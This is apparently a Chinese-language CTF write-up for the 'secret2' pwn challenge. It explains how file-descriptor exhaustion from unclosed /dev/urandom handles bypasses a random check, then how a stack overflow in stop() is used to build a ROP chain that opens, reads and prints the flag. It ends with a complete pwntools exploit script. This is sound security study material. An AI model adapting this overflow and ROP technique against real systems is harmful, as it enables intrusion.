


# Secret2

### 0x1 分析

看一下安全保护：

```shell
[*] './secret2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没有CANARY，而且地址固定。

`main()`

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  char ll; // [rsp+10h] [rbp-120h]
  char rand; // [rsp+18h] [rbp-118h]
  char name; // [rsp+20h] [rbp-110h]
  int count; // [rsp+128h] [rbp-8h]
  int i; // [rsp+12Ch] [rbp-4h]

  count = 0;
  my_init();
  self(&name);
  for ( i = 0; i <= 9999; ++i )
  {
    my_write("#           Secret: _____            #", 20);
    get_rand(&rand);
    get_long(&secret);
    if ( !memcmp(&rand, &secret, 8uLL) )
      ++count;
    else
      puts("#================no==================#");
    if ( count > 233 )
    {
      close(0);
      stop(&name);
    }
    puts("#====================================#");
    printf("#  GOOD JOB %4d TIMES TO GAME OVER  #\n", (unsigned int)(233 - count));
    puts("#====================================#");
  }
  puts("Good job 2333-tryto-cat/flag");
  system("/bin//sh");
  exit(0);
}
```

首先会输入名字，然后循环`9999`次来输入`secret`，并通过`get_rand()`取得一个随机数和`secret`比较，如果相同，计数器加一。如果计数器达到`233`，就会关闭`stdin`，然后进入`stop`函数。**如果`9999`次都没有使计数器达到`233`，就会执行`system("/bin//sh");`，但是远程环境这个调用失败了。**

先看一下`get_rand()`

```c
ssize_t __fastcall get_rand(void *rand)
{
  int v1; // eax

  memset(rand, 0, 8uLL);
  v1 = open("/dev/urandom", 0);
  return read(v1, rand, 8uLL);
}
```

这里打开了`/dev/urandom`，但是却没有关闭，这个程序就会循环打开这个文件，而且每次都不关闭。

这里补充一点，就是可以使用 `ulimit -a` 查看用户使用最大文件限制数，一般非`root`用户默认是`1024`:

```shell
➜  secret2 ulimit -a
-t: cpu time (seconds)              unlimited
-f: file size (blocks)              unlimited
-d: data seg size (kbytes)          unlimited
-s: stack size (kbytes)             8192
-c: core file size (blocks)         0
-m: resident set size (kbytes)      unlimited
-u: processes                       7779
-n: file descriptors                1024					<-----here
-l: locked-in-memory size (kbytes)  16384
-v: address space (kbytes)          unlimited
-x: file locks                      unlimited
-i: pending signals                 7779
-q: bytes in POSIX msg queues       819200
-e: max nice                        0
-r: max rt priority                 0
-N 15:                              unlimited
```

如果文件打开数目达到上限，就会在下一次 `open(“/dev/urandom”, 0);` 就会失败，导致 `read(v1, rand, 8uLL);` 读了空数据，我们只需要输入 `\0` 即可通过 `memcmp` 的验证。

然后使计数器就会达到`233`，进入`stop()`，

```c
int __fastcall stop(const void *name)
{
  char s[8]; // [rsp+14h] [rbp-Ch]
  int v3; // [rsp+1Ch] [rbp-4h]

  strcpy(s, "Good Night~");
  memcpy((char *)&v3 + 3, name, 0x100uLL);
  puts("#====================================#");
  puts("#             GAME OVER              #");
  puts("#====================================#");
  my_write("#        BYE BYE~                    #", 18);
  puts(s);
  return puts("@====================================@");
}
```

这里有一个栈溢出可以利用。通过在`name`中写入ROP链，来达到获取`flag`的目的。

但是注意一点，这个时候`stdin`已经关闭，不会输出东西了。所以我们不能通过`system('/bin/sh')`来拿`shell`。

可以构造`open("./flag", 0); read(0, addr, 0x100); puts(addr)`来得到`flag`。

**补充：因为 `close(0)`， `open(“./flag”, 0)` 返回的 `fd` 将为 `0`。**

#### 关键步骤调试

断点断在`stop()`的`memcpy()`处，准备栈溢出：



单步执行后：栈空间被修改。



### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

p = process('./secret2')
elf = ELF('./secret2')
# p = remote('183.129.189.60', 10052)
pop_rdi_ret = 0x000000000040161b
pop_rsi_r15_ret = 0x0000000000401619
flag = 0x00000000004021df

def debug(p, cmd):
  gdb.attach(p, cmd)

def name(payload):
  p.sendafter("What's your name?", payload)

def passwd():
  p.sendafter('Secret:', '\0')

# gdb.attach(p, '\n')
# pause()

# payload = 'a' * 9
# payload += p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(elf.plt['open'])
# payload += p64(0x40160E)+ p64(0) + p64(0) + p64(1) + p64(elf.got['read']) + p64(elf.bss() + 0x500) + p64(0) + p64(0)
# payload += p64(0x4015F8)
# payload += '\x00' * 0x38
# payload += p64(pop_rdi_ret) + p64(elf.bss()  + 0x500) + p64(elf.plt['puts'])

payload = "a" * 0x9
payload += flat([pop_rdi_ret, 0x4021DF, pop_rsi_r15_ret, 0, 0, elf.plt['open']])
payload += flat([0x40160E, 0, 0, 1, elf.got['read'], 0, elf.bss() + 0x500, 0x100])
payload += flat([0x4015F8, 0, 0, 0, 0, 0, 0, 0])
payload += flat([pop_rdi_ret, elf.bss() + 0x500, elf.plt['puts']])


name(payload)
try:
  for i in range(9999):
    passwd()
  p.interactive()

except:
  p.interactive()
  p.close()
```

### 0x3 Reference

[Play with file descriptor(Ⅲ)](http://m4x.fun/post/play-with-file-descriptor-3/)